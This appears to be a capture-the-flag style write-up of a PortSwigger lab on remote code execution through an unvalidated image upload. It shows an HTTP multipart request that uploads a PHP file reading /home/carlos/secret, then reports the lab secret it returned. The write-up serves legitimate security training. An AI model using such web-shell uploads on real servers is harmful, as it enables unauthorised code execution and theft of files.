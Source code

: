 
# Remote code execution via web shell upload

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter


---------------------------------------------

References: 

- https://portswigger.net/web-security/file-upload



![img](images/Remote%20code%20execution%20via%20web%20shell%20upload/1.png)

---------------------------------------------

There is a function to upload a logo, it is possible to upload a PHP file to show the content of the file:

```
POST /my-account/avatar HTTP/2
...
-----------------------------372082654728426116931381616293
Content-Disposition: form-data; name="avatar"; filename="test.php"
Content-Type: text/php

<?php echo file_get_contents('/home/carlos/secret'); ?>
-----------------------------372082654728426116931381616293
...
```



![img](images/Remote%20code%20execution%20via%20web%20shell%20upload/2.png)


Now you can read the value of the file ("G5Bm58gT0NzAmOPLxpe0vR82y4CNT6WY") accessing /avatars/test.php:



![img](images/Remote%20code%20execution%20via%20web%20shell%20upload/3.png)
